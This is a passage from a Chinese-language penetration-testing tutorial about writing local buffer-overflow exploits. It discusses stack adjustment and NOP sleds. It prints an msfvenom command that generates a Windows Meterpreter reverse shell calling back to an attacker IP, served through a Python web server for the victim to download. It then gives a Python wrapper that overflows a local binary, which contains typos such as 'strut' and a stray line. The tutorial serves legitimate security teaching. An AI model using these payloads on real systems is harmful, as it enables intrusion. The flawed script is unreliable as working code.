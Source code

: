 然而，这种方法存在一个问题。如果堆栈调整中有坏字符，则需要通过编码来消除这些字符。由于您通常不会在以后修改堆栈调整，因此可以将其作为 shell 的一部分，并对整个代码块进行编码。我们将在反转 Metasploit 模块时完成该过程。

### 提示

确保在代码中添加有关堆栈调整的注释；否则，当您尝试扩展此漏洞或使用其他有效负载时，您将非常沮丧。

作为一个附带的好处，如果我们使用这种方法而不是使用 NOP 滑橇，那么 HIPS 就不太可能捕获该漏洞。现在，我们已经完成了所有这些，认识到有一种更简单的方法可以使用标准负载获得访问权限。

### 提示

如果您仍然需要 NOP 进行真正的攻击，请确保使用 Metasploit 提供的 NOP 生成器。代码不使用“\x90”指令，而是执行无意义的数学运算。它们占用堆栈上的空间并提供相同的功能。

# 了解本地开发的目的

需要注意的是通过在系统上执行有效负载可以实现相同的访问。生成这样的有效载荷只需要我们运行以下命令：

```
msfvenom -p windows/meterpreter/reverse_nonx_tcp lhost=192.168.195.169 lport=443 -b '\x00' -f exe -o /tmp/exploit.exe

```

然后，使用以下命令启动 Python web 服务器：

```
python -m SimpleHTTPServer

```

下图突出显示了相关命令的输出：

![Understanding the purpose of local exploits](../Images/image00406.jpeg)

然后，通过系统上的浏览器下载并执行有效负载，以获得所需的结果。

![Understanding the purpose of local exploits](../Images/image00407.jpeg)

所以你可能会问自己，为什么我们要创造这个漏洞呢？如果我们刚刚创建此漏洞利用的软件是以管理员身份运行的，而不是以我们登录的用户身份运行的，那么利用此解决方案将更加有用。虽然这种情况不太可能发生，但该计划的性质是不可能的。因此，为利用此漏洞生成 Metasploit 模块不是很有用。考虑一下，这个练习是一个很好的机会来写你的第一个漏洞。

在编写漏洞攻击时，还有一个考虑因素，那就是根据您的漏洞攻击可能不可靠的程序而定。这意味着，由于代码的细微差别，您的漏洞利用可能会持续工作，也可能不会持续工作。因此，在实际组织中执行之前，您必须在实验室环境中进行实质性测试。

# 了解其他利用漏洞脚本

除了编写可以上传到程序中的恶意文件外，您可能还必须生成代码，通过接受参数、TCP 服务甚至 UDP 服务的独立程序与服务进行交互。考虑一下我们刚才开发的程序，如果它在本质上是不同的，我们仍然可以利用它，只是脚本与它交互的方式会有所不同。下面的三个示例显示了如果代码满足这些标准中的任何一个，它将是什么样子。当然，内存地址和大小必须根据您可能遇到的其他程序进行调整。

## 通过执行脚本利用独立二进制文件

我们甚至可以创建 Python 脚本来包装传递了参数的程序。通过这种方式，您可以使用包装器脚本构建漏洞利用，该脚本将注入代码，如下所示：

```
import subprocess, strut
program_name = 'C:\exploit_writing\vulnerable.exe'
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =() #Code to insert
remaining space
exploit = fill + eip + offset + shell
subprocess.call([program_name, exploit])
```

